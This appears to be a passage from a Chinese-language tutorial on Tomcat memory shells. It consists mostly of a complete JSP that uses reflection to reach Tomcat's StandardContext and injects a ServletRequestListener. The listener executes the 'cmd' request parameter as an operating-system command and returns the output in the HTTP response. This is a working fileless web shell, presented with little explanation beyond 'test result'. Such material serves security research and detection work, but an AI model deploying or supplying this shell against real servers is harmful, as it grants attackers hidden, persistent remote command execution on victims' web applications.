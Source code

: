 > ```java
> ListenerDemo SRL = new ListenerDemo();
> standardContext.addApplicationEventListener(SRL);
> out.println("listener shell inject success");
> ```

代码整合如下

> ```jsp
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="java.io.IOException" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%
>     class ListenerDemo implements ServletRequestListener {
>         @Override
>         public void requestInitialized(ServletRequestEvent sre) {
>             HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>             String cmd = sre.getServletRequest().getParameter("cmd");
>             try {
>                 if (cmd != null) {
>                     Process process = Runtime.getRuntime().exec(cmd);
>                     java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                     Field requestF = req.getClass().getDeclaredField("request");
>                     requestF.setAccessible(true);
>                     Request request = (Request) requestF.get(req);
>                     StringBuilder stringBuilder = new StringBuilder();
>                     String line;
>                     while ((line = bufferedReader.readLine()) != null) {
>                         stringBuilder.append(line + '\n');
>                     }
>                     request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                     request.getResponse().getOutputStream().flush();
>                     request.getResponse().getOutputStream().close();
>                 }
>             } catch (NoSuchFieldException | IllegalAccessException | IOException e) {
>                 e.printStackTrace();
>             }
>         }
> 
>         @Override
>         public void requestDestroyed(ServletRequestEvent sre) {
> 
>         }
>     }
> %>
> <%
>     ServletContext servletContext = request.getServletContext();
>     Field appctx = servletContext.getClass().getDeclaredField("context");
>     appctx.setAccessible(true);
>     ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
>     Field stdctx = applicationContext.getClass().getDeclaredField("context");
>     stdctx.setAccessible(true);
>     StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
>     ListenerDemo SRL = new ListenerDemo();
>     standardContext.addApplicationEventListener(SRL);
>     out.println("listener shell inject success");
> %>
> ```
测试效果
